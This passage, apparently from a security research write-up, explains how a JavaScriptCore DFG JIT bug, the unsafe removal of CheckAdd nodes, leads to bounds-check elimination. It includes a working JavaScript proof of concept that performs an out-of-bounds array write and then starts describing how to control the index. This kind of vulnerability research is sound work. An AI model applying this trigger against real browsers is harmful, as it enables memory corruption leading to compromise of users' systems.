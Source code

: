 We can see that the two `CheckAdd` nodes have been eliminated for a single unchecked `Add` node. In fact, instead of subtracting `1` and `0x80000000` from the value, it just adds `0x7fffffff` to the value, assuming it will wrap around to a negative integer. This assumption is wrong, as if the left operand is `0`, the result will be `0x7fffffff`, a positive value.

Ok, so how can we turn this into an OOB read?

Taking inspiration from [5aelo's blog post](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html) again, we create 2 checks so that `DFGIntegerRangeOptimization` will remove array bounds checks:

1. `idx < arr.length`
2. `idx >= 0`

After the first check, if we only do "safe" subtractions, it should theoretically still be safe to read the array at `idx`, as `idx` should still be less than `arr.length`.

And now we can obtain an OOB read, simply by triggering the bug (unsafe removal of `CheckAdd`) after the first check.

Here's a small code snippet, that should crash the binary by writing out of bounds:

```js
function hax(arr, a) {
    // Force 32-bit integer
    let b = a | 0;
    // Setup bug trigger
    // compiler assumes range is [1, 2], actually [0, 2]
    let c = b & 2;
    // Trigger rangeFor
    // assumed range [0, 1], actual [-1, 1]
    let idx = c - 1;

    // Check will always pass
    if (idx < arr.length) {
        // Trigger integer underflow, idx will become INT_MAX
        // Compiler assumes this case only triggers for value 0, no underflow check
        if (idx < 1) {
            idx += -0x80000000;
        }
        // idx assumed to be < arr.length, only subtraction occurs
        if (idx > 0) {
            arr[idx] = 0x1337;
        }
    }
}
```

Now, calling `hax(arr, 0)` will cause a crash!

### Finishing up the exploit

Now that we have an OOB write, we need to find a way to control the OOB index. For this, we can simply do another large "safe" subtraction after the first check (`idx < arr.length`). The only caveat here is that we cannot subtract `0x80000000` and another large negative number from the same value, else that will trigger a potential overflow check, and the `CheckAdd` will not be removed for the second overflow.
